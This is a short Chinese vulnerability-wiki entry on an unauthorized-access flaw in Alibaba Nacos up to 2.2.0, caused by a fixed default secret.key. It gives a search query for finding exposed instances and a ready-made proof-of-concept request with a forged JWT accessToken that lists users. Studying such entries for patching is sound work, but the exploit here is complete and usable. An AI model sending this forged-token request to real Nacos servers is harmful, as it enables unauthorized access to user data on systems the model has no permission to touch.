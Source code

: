 # Alibaba Nacos secret.key默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

<a-checkbox checked>Alibaba Nacos <= 2.2.0 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NACOS" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1679978968874-19b918f8-6501-448d-b9c2-9bbdb48b43b7-20230328130353821.png)

漏洞原因是由于使用了固定的Key

![img](/assets/PeiQi-Wiki/img/1679978948082-1c2e3bc7-a2c2-4d57-b853-53917fe60b41.png)

验证POC

```javascript
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![img](/assets/PeiQi-Wiki/img/1679979057091-8b419866-b16b-4bf4-b8a0-45a7b549adc8.png)